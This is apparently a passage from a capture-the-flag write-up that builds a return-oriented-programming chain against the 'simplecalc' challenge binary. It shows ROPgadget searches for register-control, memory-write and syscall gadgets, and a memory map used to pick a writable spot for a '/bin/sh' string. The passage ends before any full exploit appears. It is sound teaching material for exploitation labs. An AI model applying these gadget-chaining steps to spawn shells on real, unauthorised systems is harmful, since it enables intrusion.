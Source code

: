 ```
$ python ROPgadget.py --binary simplecalc | grep "pop rdi ; ret"
0x000000000044bbbc : inc dword ptr [rbx - 0x7bf0fe40] ; pop rdi ; ret
0x0000000000401b73 : pop rdi ; ret
$ python ROPgadget.py --binary simplecalc | grep "pop rsi ; ret"
0x00000000004ac9b4 : add byte ptr [rax], al ; add byte ptr [rax], al ; pop rsi ; ret
0x00000000004ac9b6 : add byte ptr [rax], al ; pop rsi ; ret
0x0000000000437aa9 : pop rdx ; pop rsi ; ret
0x0000000000401c87 : pop rsi ; ret
$ python ROPgadget.py --binary simplecalc | grep "pop rdx ; ret"
0x00000000004a868c : add byte ptr [rax], al ; add byte ptr [rax], al ; pop rdx ; ret 0x45
0x00000000004a868e : add byte ptr [rax], al ; pop rdx ; ret 0x45
0x00000000004afd61 : js 0x4afde1 ; pop rdx ; retf
0x0000000000414ed0 : or al, ch ; pop rdx ; ret 0xffff
0x0000000000437a85 : pop rdx ; ret
0x00000000004a8690 : pop rdx ; ret 0x45
0x00000000004b2dd8 : pop rdx ; ret 0xfffd
0x0000000000414ed2 : pop rdx ; ret 0xffff
0x00000000004afd63 : pop rdx ; retf
0x000000000044af60 : pop rdx ; retf 0xffff
0x00000000004560ae : test byte ptr [rdi - 0x1600002f], al ; pop rdx ; ret
```

So we can see the gadgets for controlling the four registers are at `0x44db34`, `0x401b73`, `0x401c87`, and `0x437a85`. Now we need a gadget that will write an eight byte value to a memory region. For this I would like to start my search by searching through the gadgets with `mov` in them:

```
$ python ROPgadget.py --binary simplecalc | grep "mov" | less
```

after a bit of searching, we find this gadget:

```
0x000000000044526e : mov qword ptr [rax], rdx ; ret
```

This gadget will move the eight byte value from `rdx` to whatever memory is pointed to by `rax`. This is exactly what we need, and a bit convenient since we already have the gadgets for those two registers and this gadget doesn't do anything else that we need to worry about. The last gadget we need will be a `syscall` gadget:

```
$ python ROPgadget.py --binary simplecalc | grep ": syscall"
0x0000000000400488 : syscall
```

There are two more things we need to figure out. The first is where in memory we will write the string `/bin/sh`. Let's check the memory mappings while the binary is running:

```
gef➤  vmmap
Start              End                Offset             Perm Path
0x0000000000400000 0x00000000004c1000 0x0000000000000000 r-x /Hackery/pod/modules/bof_static/bkp16_simplecalc/simplecalc
0x00000000006c0000 0x00000000006c3000 0x00000000000c0000 rw- /Hackery/pod/modules/bof_static/bkp16_simplecalc/simplecalc
0x00000000006c3000 0x00000000006c6000 0x0000000000000000 rw-
0x0000000001971000 0x0000000001994000 0x0000000000000000 rw- [heap]
0x00007fffbde39000 0x00007fffbde5a000 0x0000000000000000 rw- [stack]
0x00007fffbdfe6000 0x00007fffbdfe9000 0x0000000000000000 r-- [vvar]
0x00007fffbdfe9000 0x00007fffbdfeb000 0x0000000000000000 r-x [vdso]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]
gef➤  x/g 0x6c0000
0x6c0000: 0x200e41280e41300e
gef➤  x/20g 0x6c0000
0x6c0000: 0x200e41280e41300e  0x0e42100e42180e42
0x6c0010: 0x00000000000b4108  0x0000d0a40000002c
0x6c0020: 0x0000006cfffd1fd0  0x080e0a69100e4400
```